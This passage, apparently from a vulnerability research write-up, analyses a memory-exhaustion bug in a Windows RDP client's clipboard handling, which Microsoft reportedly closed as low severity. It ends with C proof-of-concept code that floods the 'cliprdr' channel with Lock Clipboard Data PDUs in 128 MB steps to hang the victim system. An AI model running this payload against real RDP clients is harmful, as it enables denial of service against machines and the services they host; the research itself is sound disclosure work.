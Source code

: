 ```
0A 00       // msgType
00 00       // msgFlags
04 00 00 00 // dataLen
01 69 63 6B // clipDataId
```

It is a *Lock Clipboard Data PDU* (`0x000A`), which basically only contains a `clipDataId` field. In the function `CClipBase::OnLockClipData`, this field is used with some kind of "smart array" object:

```c
EnterCriticalSection(...);
v5 = SmartArray<CFileContentsReaderManager>::AddAt(
  this,
  PDU->clipDataId,
  v9
) == 0 ? 0x8007000E : 0;
LeaveCriticalSection(...);
```

Eventually, the function `DynArray<SmartArray<RdpStagingSurface,unsigned long>::CCleanType,unsigned long>::Grow` is called and performs:

```c
v5 = operator new(saturated_mul(32 + clipDataId, 8ui64));
```

My guess is that an array of dynamic length is used to store information, such as a lock tag, about file streams based on their id (if this is really the case, then it is probably poor choice of data structure). If the array is not big enough when trying to access a certain index, then it is reallocated with sufficient size.

This leads to a **malloc** of size ∳8 \times (32 + \text{clipDataId})∳, which means at maximum a little more than **32 GB**. Of course, on systems with a moderate amount of RAM like an employee's laptop, this may be dangerous.

Risk-wise, this is a case of **remote system-wide denial of service**. Obviously, it's less impressive on a client than on a server, but it's still nastier than your usual mere crash.

**Microsoft acknowledged the bug, but unsurprisingly closed the case as a *low severity DOS vulnerability*.** I still think it could have deserved a little fix. Imagine a Windows machine that hosts several critical services, and from which you can connect to another machine through RDP --- since the DOS hangs the entire system, these critical services would be impacted too.

While writing a PoC, I noticed something interesting. Depending on how much available RAM there is left on the client, you cannot just send a PDU with `0xFFFFFFFF` as `clipDataId`. The client will try to allocate *too much* at once, and malloc will return `ERROR_NOT_ENOUGH_MEMORY`. But you still need to make the client allocate enough memory to reach death by swap. Thus, my exploit sends the malicious payloads with smaller 128 MB increments to adapt to the amount of RAM on the victim's system.

```c
char payload[] = {
    0x0A, 0x00,             // msgType
    0x00, 0x00,             // msgFlags
    0x04, 0x00, 0x00, 0x00, // dataLen
    0xFF, 0xFF, 0xFF, 0x00  // clipDataId
};

connect_to_virtual_channel("cliprdr", 10, STATIC_CHANNEL);

for (int c = 0; c < 256; c++) {
    payload[11] = (char)c; // Allocate memory with 128MB increments
    write_to_virtual_channel(payload, sizeof(payload));
    Sleep(100);
}

close_virtual_channel();
```
